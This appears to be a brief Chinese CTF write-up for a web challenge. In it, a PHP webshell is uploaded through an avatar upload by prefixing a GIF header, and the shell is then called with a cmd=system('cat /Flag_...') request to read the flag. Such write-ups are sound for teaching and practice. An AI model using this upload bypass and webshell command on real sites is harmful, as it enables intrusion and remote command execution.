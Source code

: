 ![[Pasted image 20221231095511.png|500]]

---
首页长这样
![[Pasted image 20221231095544.png|1000]]
注册账号并登录
![[Pasted image 20221231100127.png|1000]]
这里可以上传头像

没想到加上`GIF`头之后就能顺利上传木马
![[Pasted image 20221231101933.png|500]]
```php
/uploads/d41d8cd98f00b204e9800998ecf8427e.php?cmd=system('cat /Flag_aqi2282u922oiji');
```
![[Pasted image 20221231101816.png]]

#Web #PHP #文件上传 #文件 